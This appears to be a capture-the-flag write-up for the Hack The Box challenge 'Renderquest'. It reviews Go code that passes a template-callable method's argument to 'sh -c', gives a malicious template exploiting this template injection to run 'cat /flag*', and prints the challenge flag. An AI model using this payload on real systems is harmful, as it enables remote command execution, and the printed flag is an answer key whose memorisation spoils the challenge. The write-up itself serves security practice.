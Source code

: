 ```yaml
---
description: https://app.hackthebox.com/challenges/renderquest
---
```


# Renderquest

CHALLENGE DESCRIPTION

You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!

## Homepage

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

## Src code review

It's a website that allows you to make websites with templates, the website here will render it and display the output.

The juicy data lies here:

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```

The provided features of the website will be rendered through this code:

```go
reqData.ClientIP = clientIP
reqData.ClientUA = userAgent
reqData.ClientIpInfo = *locationInfo
reqData.ServerInfo.Hostname = reqData.FetchServerInfo("hostname")
reqData.ServerInfo.OS = reqData.FetchServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
reqData.ServerInfo.KernelVersion = reqData.FetchServerInfo("uname -r")
reqData.ServerInfo.Memory = reqData.FetchServerInfo("free -h | awk '/^Mem/{print $2}'")
```

It's a classic SSTI. Since we can load our own template here, we can abuse `FetchServerInfo` method to get RCE.

### Malicious template

```markup
<html>
<body>

<h1> RCE execution </h1>

<p>{{.ServerInfo.KernelVersion}}</p>
<p>Flag:  {{.FetchServerInfo "cat /flag*" }} </p>

</body>
</html>
```

`{{.FetchServerInfo "cat /flag*" }}` what this line will do is call FetchServerInfo and send `cat /flag*` as a parameter, as it's using `sh -c` it will execute our cmd, giving us the flag

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

Flag: `HTB{qu35t_f0r_th3_f0rb1dd3n_t3mpl4t35!!}`

## Reference

{% embed url="https://www.onsecurity.io/blog/go-ssti-method-research/" %}

\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
